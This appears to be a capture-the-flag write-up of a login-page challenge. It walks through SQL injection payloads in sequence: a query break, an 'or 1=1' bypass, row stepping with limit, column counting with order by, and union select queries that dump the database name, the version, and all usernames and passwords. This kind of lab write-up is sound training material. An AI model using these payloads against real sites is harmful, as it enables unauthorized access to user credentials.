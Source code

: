 ﻿In this chall we are greeted with a form or a login page that asks us to insert the username and password that is necessary for logging into the website.

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

We proceed by fuzzing with the inputs of the following fields and find that “admin” works in this case as both username and password.

We have successfully logged in but we need to break the query to proceed with the SQL based injection to extract or dump data from the database.

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**: “) #

Although it doesnt show as logged in, we can still input a payload between the ‘ and # we can inject the payload.

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**:") or 1=1 #

Now adding the limit parameter we will we able to extract more data from the database, for which we will only need to fuzz the numeral part of the limit parameter.

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

Like so by using the following payload:

**PAYLOAD**:") or 1=1 limit 1,1  #

`                  `") or 1=1 limit 2,1  #

Now before we dump all the passwords and the usernames we will need to find the number of columns that are present in the database using “order by”.

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**:") or 1=1 order by 3#

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

From this, we can predict that there are only 2 columns in the table and now we will use the parameter “union select”.

**PAYLOAD**:") union select 1,2#

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**:") union select 1,database()#

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**:") union select version(),database()#

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)

**PAYLOAD**:") union select group\_concat(username),group\_concat(password) from users#

![](Aspose.Words.094068e8-8095-4b6e-ad27-fca2c12b9f21.001.png)
